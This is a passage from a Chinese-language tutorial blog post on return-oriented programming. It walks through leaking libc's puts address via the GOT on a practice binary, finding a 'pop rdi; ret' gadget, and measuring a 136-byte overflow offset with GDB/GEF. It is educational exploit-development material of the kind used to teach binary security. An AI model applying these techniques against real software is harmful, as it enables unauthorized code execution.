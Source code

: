 這個指向的是plt的中間人函數，繼續反組譯
```
gef➤  disassemble 0x400540
Dump of assembler code for function puts@plt:
   0x0000000000400540 <+0>:	 jmp   QWORD PTR [rip+0x200ad2] # 0x601018 <puts@got.plt>
   0x0000000000400546 <+6>:  push  0x0
   0x000000000040054b <+11>: jmp   0x400530
End of assembler dump.
```
`puts@got.plt`的地址是`0x601018`，這個地址也是固定的，保存的值就是真正的`puts@GLIBC`的地址

所以現在的目標是把執行期`0x601018`的值印出來，「印出來」這件事本身問題不大，因為現在已經有辦法用`puts`

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/exploit-1.png" column=1 %}

但問題是
```c
int puts(const char *s);
```
`puts`需要一個參數，這個參數需要放在`rdi`裡面

這個時候就需要gadget了，內容需要`pop rdi; ret`

使用ROPgadget看一下

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/ropgadget-rdi.png" column=1 %}

`0x400913`那個看起來很好用

所以現在的執行流程長這個樣子

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/exploit-2.png" column=1 %}

stack的安排如下

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/stack-1.png" column=1 %}

運作模式為

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/stack-1-1.png" column=1 %}

至於要塞多少垃圾，快速用`pattern create`跟`pattern search`看一下，被保存的return address顯示在`info frame`中
```
gef➤  info frame
Stack level 0, frame at 0x7fffffffda18:
 rip = 0x400770 in do_stuff; saved rip = 0x6261616b6261616a
 called by frame at 0x7fffffffda28
 Arglist at 0x6261616962616168, args: 
 Locals at 0x6261616962616168, Previous frame's sp is 0x7fffffffda20
 Saved registers:
  rip at 0x7fffffffda18
gef➤  pattern search 0x6261616b6261616a
[+] Searching for '0x6261616b6261616a'
[+] Found at offset 136 (little-endian search) likely
```
前面需要136個垃圾
